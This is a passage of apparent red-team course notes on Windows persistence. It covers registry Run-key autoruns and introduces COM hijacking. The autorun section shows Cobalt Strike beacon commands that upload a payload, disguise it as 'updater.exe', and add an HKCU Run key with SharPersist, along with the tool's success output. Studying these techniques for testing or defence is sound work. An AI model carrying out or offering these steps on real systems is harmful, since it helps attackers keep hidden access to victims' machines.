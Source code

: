 ```
[*] INFO: SHA256 Hash of LNK file: B34647F8D8B7CE28C1F0DA3FF444D9B7244C41370B88061472933B2607A169BC
```

> **Note**: In `System` context this tecnhique does not work.

## HKCU / HKLM Registry Autoruns

AutoRun values in HKCU and HKLM allow applications to start on boot. You commonly see these to start native and 3rd party applications such as software updaters, download assistants, driver utilities and so on.

* **HKCU**: HKCU autorun will only trigger when the **owner of the hive logs** into the machine.
* **HKLM**: HKLM autorun will trigger when **any user logs** in the machine.

```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\beacon-http.exe
beacon> mv beacon-http.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```

> **Note**: It's a common misconception that an HKLM autorun will execute the payload as SYSTEM, it will still run under the context of the user's account.

## COM Hijacking

Component Object Model (COM) is a technology built within the Windows operating system that allows intercommunication between software components of different languages.

COMs are identified with a classID `CLSID` and each component exposes functionality via one or more interfaces `IIDs`. 
A COM Class `COCLASS` is an implementation of one or more interfaces, represented by their `CLSID` or a programmatic identifier `ProgID`.

COM Classes and interfaces are defined in the registry `HKEY_CLASSES_ROOT\CLSID` and `HKEY_CLASSES_ROOT\Interface`.

An in-processs server allows the specified DLL to be loaded into the process of the calling application. `InProcServer32` registers a 32-bit in-process server.

The `ThreadingModel` can be `Apartment` (Single-Threaded), `Free`(Multi-Threaded), `Both` (Single or Multi) or `Neutral` (Thread Neutral).

It is possible to find `LocalServer32` wich provides a path to an EXE file.

`OleView .NET` is a tool that allows us to find and inspect COM components.
